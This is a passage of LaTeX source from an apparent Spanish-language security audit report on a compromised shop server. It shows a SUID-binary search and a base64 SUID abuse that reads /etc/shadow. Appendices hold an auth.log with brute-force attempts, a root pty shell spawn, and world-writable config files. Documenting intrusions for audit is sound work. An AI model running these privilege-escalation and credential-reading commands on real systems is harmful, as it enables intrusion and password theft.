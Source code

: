 \documentclass[11pt,a4paper]{report}
\begin{document}
A través de este vector de inyección SQL, se extrajo el contenido de la tabla \texttt{users} de la base de datos de producción \texttt{db\_shopcloud\_prod}, obteniendo los hashes criptográficos del personal técnico. Al auditar los permisos locales de la máquina de producción para buscar rutas de escalada, se descubrió la presencia anómala del bit SUID en el binario \texttt{/usr/bin/base64}:
\begin{lstlisting}[language=bash]
find / -perm -u=s -type f 2>/dev/null
\end{lstlisting}

Abusando de esta mala configuración de infraestructura, se logró saltar el control local del sistema operativo leyendo el archivo protegido de contraseñas de Linux, consolidando la intrusión total del servidor con privilegios del superusuario \texttt{root}:
\begin{lstlisting}[language=bash]
/usr/bin/base64 /etc/shadow | base64 --decode
\end{lstlisting}

\section{Anexo A: Análisis Forense del Log de Autenticación (\texttt{auth.log})}
El análisis de los registros internos del servidor del día del compromiso detectó la actividad de fuerza bruta previa al compromiso de la identidad local:
\begin{lstlisting}
May 12 03:14:01 shopcloud sshd[14522]: Failed password for invalid user ftpadmin from 10.10.55.201 port 45212 ssh2
May 12 03:14:05 shopcloud sshd[14524]: Failed password for root from 10.10.55.201 port 45216 ssh2
May 12 03:14:10 shopcloud sshd[14528]: Accepted publickey for www-data from 10.10.55.201 port 45220 ssh2: RSA SHA256:X9pZ...
May 12 03:15:22 shopcloud sudo[14601]: www-data : TTY=pts/1 ; PWD=/var/www/html ; USER=root ; COMMAND=/usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
\end{lstlisting}

\section{Anexo B: Evidencia de Permisos en Ficheros Críticos}
Volcado de la consola que expone la vulnerabilidad de permisos globales (\texttt{777}) en archivos del core y la retención del fichero de respaldo en áreas de descarga indexables de la web:
\begin{lstlisting}
auditor@shopcloud$ ls -la /var/www/html/
-rwxrwxrwx  1 www-data www-data 3215 Apr 20 10:05 wp-config.php
-rw-rw-rw-  1 root     root     1024 Apr 20 08:30 backup_db.sql
\end{lstlisting}
\end{document}
